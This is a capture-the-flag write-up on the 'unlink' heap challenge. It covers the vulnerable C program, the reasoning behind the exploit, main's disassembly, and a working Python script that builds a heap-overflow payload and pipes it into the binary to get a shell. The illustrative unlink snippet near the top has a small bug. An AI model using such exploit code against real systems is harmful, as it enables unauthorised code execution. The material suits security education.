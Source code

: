 # Unlink write-up

## Preface

This challenge is about exploiting the infamous unlink function. The unlink function is a function that appears in implementations of libc's *free* function. This functions is used to remove an allocated block from the allocated blocks linked list when it gets freed. The function just connects the next element in the list to the previous element, which looks something like this:

```c
void unlink(OBJ* obj) {
    OBJ* FD = NULL;
    OBJ* BK = NULL;
    FD = obj->fd;
    BK = obj->bk;
	FD->BK = BK;
    BK->FD = BK;
}
```

So, if you could somehow write into an heap allocated block's meta-data, you could write into arbitrary addresses. Because this meta-data is usually stored right before the data, if you a program contains a heap overflow bug, the meta-data can be overwritten and the unlink function can be exploited to get code execution.

## The challenge

The challenge itself is just a simplification of this, and just contains the unlink function and a shell function, which we probably should redirect code execution into.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

## Exploitation ideas

As I've previously solved a challenge similar to this in the phoenix wargame, I had an idea of how to exploit this bug. My idea was to change the *bk* and *fd* fields to the addresses of the return pointer of the main function, and an address on the heap which I control. The address on the heap would contain shellcode which will jump to the shell function and that's it. 

Well... after hours of trying to make this idea work, I realized that the heap is not executable in this challenge(!!!), which was quite annoying.

After debugging the program a bit and looking at the code, I found another idea. My second idea was to write the address of some user controlled area into the address to which ebp is pushed onto the stack in the unlink function. The logic behind this idea is that when the program would return from unlink, our address would be popped from the stack into *ebp* and when main would try to return into libc's wrapper, it would set *esp* to *ebp*, and actually return into *shell* as we would control the return pointer.

## Preparing the payload

In order to craft the payload that will exploit the bug, we need to understand how the value we want to change, the pushed *ebp* in *unlink*, is being used in the program, as it turns out it is not that straight forward. So, I checked the disassembly of the program and discovered that the way *main* returns is a little strange.

```assembly
main:
	...
	call unlink
	...
	mov ecx, DWORD PTR [ebp - 4]
	leave
	lea esp, [ecx - 4]
	ret
```

As you can see the returning process is indeed a bit strange. So, what we need is that *(ebp + 4)* will point to a pointer to *(shell + 4)*.

I wrote a small python script that creates the payload sends it to the program:

```python
import sys

def main():
    stack_address = input()
    heap_address = input()

    b_fd_pointer = (int(heap_address, base=16)+44).to_bytes(length=4, byteorder='little')
    ebp_address = (int(stack_address, base=16)-28).to_bytes(length=4, byteorder='little')
    shell_pointer_address = (int(heap_address, base=16)+48).to_bytes(length=4, byteorder='little')
    shell_address = b'\xeb\x84\x04\x08'
   
    payload = b'A' * 16 + b_fd_pointer + ebp_address + b'A' * 8 + shell_pointer_address + shell_address + b'\n'
    sys.stdout.buffer.write(payload)

if __name__ == '__main__':
    main()
```

To use the script we just need to pipe it into the program, and then copy the address leaks and give them as input.

```bash
(python3 solve.py; cat) | unlink
```


